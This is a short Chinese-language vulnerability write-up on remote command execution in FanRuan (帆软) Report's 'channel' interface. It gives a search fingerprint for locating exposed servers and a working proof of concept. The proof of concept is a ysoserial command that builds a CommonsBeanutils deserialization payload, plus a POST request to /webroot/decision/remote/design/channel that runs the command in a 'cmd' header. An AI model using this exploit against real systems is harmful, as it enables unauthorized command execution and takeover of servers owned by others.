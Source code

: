 # 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表

## 网络测绘

```
"Powered by 帆软"
```

## 漏洞复现

登陆页面

![image-20230828143655329](images/image-20230828143655329.png)

验证POC

```
java -jar ysuserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![image-20230828143710052](images/image-20230828143710052.png)